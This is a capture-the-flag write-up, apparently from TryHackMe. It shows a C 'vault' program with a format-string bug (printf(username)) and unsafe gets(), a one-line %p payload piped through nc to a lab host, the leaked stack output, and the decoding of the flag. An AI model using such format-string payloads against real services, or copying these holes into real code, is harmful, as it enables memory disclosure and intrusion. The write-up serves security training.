 # Challenge description

How did you do that? No worries. I'll adjust a couple of lines of code so you won't be able to get the flag anymore. This time, for real. Here's the source code once again. 

nc 10.10.240.119 1337

# Soluce

The vault’s source code is as follows:

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
        printf( "  ______ _          __      __         _ _   \n"
                " |  ____| |         \\ \\    / /        | | |  \n"
                " | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
                " |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
                " | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
                " |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
                "                  __/ |                      \n"
                "                 |___/                       \n"
                "                                             \n"
                "Version 2.1 - Fixed print_flag to not print the flag. Nothing you can do about it!\n"
                "==================================================================\n\n"
              );
}

void print_flag(char *username){
        FILE *f = fopen("flag.txt","r");
        char flag[200];

        fgets(flag, 199, f);
        //printf("%s", flag);

        //The user needs to be mocked for thinking they could retrieve the flag
        printf("Hello, ");
        printf(username);
        printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
        printf("Yours truly,\nByteReaper\n\n");
}

void login(){
        char username[100] = "";

        printf("Username: ");
        gets(username);

        // The flag isn't printed anymore. No need for authentication
        print_flag(username);
}

void main(){
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);

        // Start login process
        print_banner();
        login();

        return;
}
```

The vault has been updated to version 2.1. The `print_flag` function has been modified to not print the flag. The `login` function now calls `print_flag` without any authentication. We can still retrieve the flag by providing a username that contains the flag.

By supplying specially crafted input as the username, an attacker can use format string specifiers (such as %p or %s) to leak memory contents from the stack. Since the flag was read into memory (in the local variable flag), it is likely stored on the stack nearby. This enables the attacker to print out the flag indirectly.

```sh
┌──(virgile㉿localhost)-[~/Téléchargements]
└─$ python -c 'print("%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p")' | nc 10.10.240.119 1337                                                                                                                                              
  ______ _          __      __         _ _   
 |  ____| |         \ \    / /        | | |  
 | |__  | | __ _  __ \ \  / /_ _ _   _| | |_ 
 |  __| | |/ _` |/ _` \ \/ / _` | | | | | __|
 | |    | | (_| | (_| |\  / (_| | |_| | | |_ 
 |_|    |_|\__,_|\__, | \/ \__,_|\__,_|_|\__|
                  __/ |                      
                 |___/                       
                                             
Version 2.1 - Fixed print_flag to not print the flag. Nothing you can do about it!
==================================================================

Username: Hello, 0x7fff73d6deb0 (nil) 0x7fe774e65887 0x7 0x55aba20a1480 0x7fff73d70268 0x7fff73d700d0 0x7fe774f68600 0x55aba20a12a0 0x6d726f667b4d4854 0x65757373695f7461 0xa7d73 0x7fe774dded96 0x7fe774f67a00 (nil). Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...

Yours truly,
ByteReaper
```

In the output, look for values that, when interpreted as hexadecimal bytes in little-endian order, form readable ASCII strings. For example, you might see:

- 0x6d726f667b4d4854 which corresponds to the ASCII string `mrof{MHT`
- 0x65757373695f7461 which corresponds to the ASCII string `eussi_ta`

The 64-bit architecture uses little-endian, which causes the bytes in hexadecimal values ​​to appear in reverse order compared to their normal reading. This explains why 0x6d726f667b4d4854 translates to "THM{form" when properly reassembled.

We don't have the full flag, but we can deduce that the flag is `THM{format_issues}`.
